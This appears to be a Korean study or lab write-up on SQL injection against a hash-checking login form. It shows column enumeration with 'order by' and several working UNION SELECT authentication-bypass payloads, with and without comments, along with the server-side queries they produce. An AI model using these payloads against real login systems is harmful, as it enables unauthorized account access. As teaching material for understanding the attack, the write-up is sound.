> 코드<br><script src="https://gist.github.com/MinGyu2/3ba980c0793432ddb51eb184be586ff3.js"></script>


>정상적인 로그인<br>![Pasted image 20230419150421](https://user-images.githubusercontent.com/31990118/232991349-687a4c81-ef26-4c32-80b0-5bc5760cfecc.png)
<br>![Pasted image 20230419150437](https://user-images.githubusercontent.com/31990118/232991402-b32657e8-1f6d-4feb-8c64-8ca1f3728d20.png)

>정확한 컬럼 수 찾기
- `order by` 를 이용한다.
- `user2' order by 2 -- ` 로그인 성공<br>![Pasted image 20230419144418](https://user-images.githubusercontent.com/31990118/232991510-58554a20-098d-4531-b5e1-f664afcb53b3.png)
- 컬럼수가 2개라는 것을 알 수 있다.

<br>
>공격방법

- **union 을 이용한다.**

| | 입력|
| --- | ---|
|id|`2' union select 'user2', cast(standard_hash('user2','SHA512') as char(128)) from dual --`|
|pwd|`user2` |

- 서버에서 완성된 쿼리문<br>
`select id,hashpwd from members where id='x' union select 'user2', cast(standard_hash('user2','SHA512') as char(128)) from dual -- '`<br>![Pasted image 20230419145121](https://user-images.githubusercontent.com/31990118/233049085-c016daf8-8467-47ad-8d63-26668bfc33ac.png)
<br>![Pasted image 20230419145133](https://user-images.githubusercontent.com/31990118/233049124-051680f1-71c0-45d5-b569-ff429fa6581a.png)


<br>
- **직접 해시 암호한 값을 넣어준다.**

| | 입력|
| --- | ---|
|id| `2' union select 'user2', hash('a','SHA512') from dual --`|
|pwd| `a`|

- hash('a','SHA512') = `1F40FC92DA241694750979EE6CF582F2D5D7D28E18335DE05ABC54D0560E0F5302860C652BF08D560252AA5E74210546F369FBBBCE8C12CFC7957B2652FE9A75`
- 서버에서 완성된 쿼리문<br>
`select id,hashpwd from members where id='2' union select 'user2', '1F40FC92DA241694750979EE6CF582F2D5D7D28E18335DE05ABC54D0560E0F5302860C652BF08D560252AA5E74210546F369FBBBCE8C12CFC7957B2652FE9A75' from dual --'`<br>![Pasted image 20230419145351](https://user-images.githubusercontent.com/31990118/233049465-179b0584-4be4-4702-a13a-e7ed0bb58b3c.png)
<br>![Pasted image 20230419145407](https://user-images.githubusercontent.com/31990118/233049512-f9fe88e5-5ccb-4863-89e5-be94b3eaef62.png)

<br>

- **주석 없이 하기**

| | 입력|
| --- | ---|
|id| `2' union select 'user2', cast(standard_hash('user2','SHA512') as char(128)) from dual where '1'='1 ` |
|pwd| `user2`|
